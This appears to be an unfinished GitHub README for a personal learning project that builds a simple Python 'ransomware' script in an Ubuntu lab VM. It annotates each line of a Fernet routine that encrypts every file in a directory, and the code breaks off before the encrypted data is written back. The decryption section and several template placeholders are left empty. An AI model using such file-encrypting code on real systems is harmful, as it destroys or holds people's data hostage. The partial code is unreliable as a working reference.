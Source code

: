 # Ransomware
Deploying ransomware using Python

## Objective


As ransomware attacks have been on a steady upward trend, I wanted to take the time to understand one of the methods of carrying out a ransomware attacks.

### Skills Learned


- Advanced understanding of SIEM concepts and practical application.
- Python scripting
- Cryptography
- 


### Tools Used
[Bullet Points - Remove this afterwards]

- Python
  

## Steps

First we are going to spin up an Ubuntu VM

Next we will create a directory with several files that we are going to test our ransomware on.

So we insert into the CLI "mkdir ransomware" to create the directory and inside the directory, run "echo "file content" > filename.txt" a few times to create several files.

Next we will create the Python script file.

To make this project easier to read I will briefly notate each line of code seperated by "//" to explain its utility in the script.

First we have to include the shebang #! so that Linux runs the file as a script.

Import os // allows python to interact with the OS.

from cryptography.fernet import Fernet // 128bit AES

files = [] // This will create an empty list called files.

for file in os.listdir() // This is a for loop and will list all the files in the directory.

if os.path.isfile(file) // if object is a file add to encryption list

if file == "ransomware.py" or file == "thekey.key" : (next line)continue(next line) files.append(file) // This is seperating our script file that is in the same directory forom the file list we created earlier in the script.

print(files) // Will display the "files" list on the CLI.

ref: test print

key = Fernet.generate_key() // This will generate the encryption key.

with open("thekey.key", "wb") as thekey: // This line uses the open function to open the file in script in write mode and reference the variable as "thekey" throughout the script.

for file in files: // This is creating a loop for the file's in the files list created earlier.

with open(file, "rb") as thefile: // This line will open the file's in the list in read binary mode and assigned the alias "thefile".

contents = thefile.read() // we have now made contents a alias to the file.read

contents_encrypted = Fernet(key).encrypt(contents) // This line encrypt the contents with the Fernet key.

with open(file, "wb") as thefile: 

1600

DECRYPT

From the beginning of the script to print(files) is the same as the ransomware/encryption script

*Ref 1: Network Diagram*

